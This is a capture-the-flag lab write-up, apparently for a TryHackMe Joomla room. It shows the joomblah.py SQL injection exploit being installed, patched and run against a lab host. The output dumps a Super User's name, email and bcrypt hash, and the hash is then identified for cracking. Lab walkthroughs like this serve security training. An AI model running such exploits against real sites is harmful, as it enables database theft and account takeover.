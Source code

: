 this script works better with python2...I needed to install pip and requests to make it

```
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py
python2 get-pip.py
python2 -m pip install requests
```

There is a python 3 version commited by mats-codes (commit #18) but its not complete fix

According to reddit:

```
Fix for the joomblah.py script Add .decode('utf-8') to the end of line 46 so it looks like this result += value.decode('utf-8')
```

Anyway I used the python 2 method and it works

```
└──╼ $python2 joomblah.py http://10.10.135.31/

.---. .-'''-. .-'''-.
| | ' _ \ ' _ \ .---.
'---' / /` '. \ / /` '. \ \_\_ ** \_** /| | | .
.---.. | \ ' . | \ ' | |/ `.' `. || | | .'|
| || ' | '| ' | '| .-. .-. '|| | | < |
| |\ \ / / \ \ / / | | | | | ||| ** | | ** | |
| | `. ` ..' / `. ` ..' / | | | | | |||/'** '. | | .:--.'. | | .'''-.
| | '-...-'` '-...-'` | | | | | ||:/` '. '| |/ | \ | | |/.'''. \ | | | | | | | ||| | || |`" ** | | | / | |
| | |**| |**| |**|||\ / '| | .'.''| | | | | |
**.' ' |/'..' / '---'/ / | |_| | | |
| ' ' `'-'` \ \._,\ '/| '. | '.
|\_\_\_\_.' `--' `" '---' '---'

[-] Fetching CSRF token
[-] Testing SQLi

- Found table: fb9j5_users
- Extracting users from fb9j5_users
  [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
- Extracting sessions from fb9j5_session
```

we get jonah creds but pass is hashed

lets identify the hash

```
$haiti '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
bcrypt [HC: 3200] [JtR: bcrypt]
Blowfish(OpenBSD) [HC: 3200] [JtR: bcrypt]
Woltlab Burning Board 4.x
```

